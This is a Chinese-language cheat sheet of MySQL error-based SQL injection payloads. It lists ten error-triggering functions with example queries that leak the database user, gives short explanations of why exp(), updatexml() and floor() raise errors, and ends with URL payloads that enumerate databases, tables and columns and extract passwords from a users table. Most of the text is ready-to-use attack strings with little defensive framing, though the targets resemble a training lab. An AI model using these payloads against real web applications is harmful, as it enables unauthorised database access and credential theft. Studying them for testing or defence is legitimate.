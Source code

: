 





## **报错注入**

```bash

# 1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

# 2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

# 3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

# 4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

# 5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

# 6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

# 7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

# 8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

# 9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

# 10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```

**exp() 报错的原理：**exp 是一个数学函数，取e的x次方，当我们输入的值大于709就会报错，然后 ~ 取反它的值总会大于709，所以报错。

**updatexml() 报错的原理：**由于 updatexml 的第二个参数需要 Xpath 格式的字符串，以 ~ 开头的内容不是 xml 格式的语法，concat() 函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。

**floor()报错的原理：**[Floor报错原理分析 - ka1n4t - 博客园 (cnblogs.com)](https://www.cnblogs.com/litlife/p/8472323.html)



```bash
爆库：
?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +

爆表：
?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +

爆字段：
?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +

爆数据：
?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

```